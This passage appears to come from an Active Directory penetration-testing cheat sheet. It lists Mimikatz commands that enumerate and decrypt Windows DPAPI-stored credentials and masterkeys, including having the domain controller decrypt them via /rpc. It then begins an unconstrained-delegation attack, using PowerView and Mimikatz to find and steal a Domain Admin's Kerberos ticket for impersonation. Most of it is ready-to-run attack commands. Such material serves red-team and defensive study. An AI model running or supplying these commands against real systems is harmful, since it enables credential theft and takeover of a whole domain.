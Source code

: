 ### List and Decrypt Stored Credentials using Mimikatz

Usually, encrypted credentials are stored in:

* `%appdata%\Microsoft\Credentials`
* `%localappdata%\Microsoft\Credentials`

By using the cred function of mimikatz we can enumerate the cred object and get information about it:

```
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

From the previous command we are interested in the "guidMasterKey" parameter, which tells us which masterkey was used to encrypt the credential Let's enumerate the Master Key:

```
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"
```

Now if we are in the context of the user (or system) that the credential belongs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controller:

```
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc
```

We now have the masterkey in our local cache:

```
dpapi::cache
```

Finally, we can decrypt the credential using the cached masterkey:

```
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

Detailed Article: [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-credential-manager-saved-credentials)

### Unconstrained Delegation

_What is this?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high-value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

Discover domain- joined computers that have Unconstrained Delegation enabled

```
Get-NetComputer -UnConstrained
```

List tickets and check if a DA or some High-Value target has stored its TGT

```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```
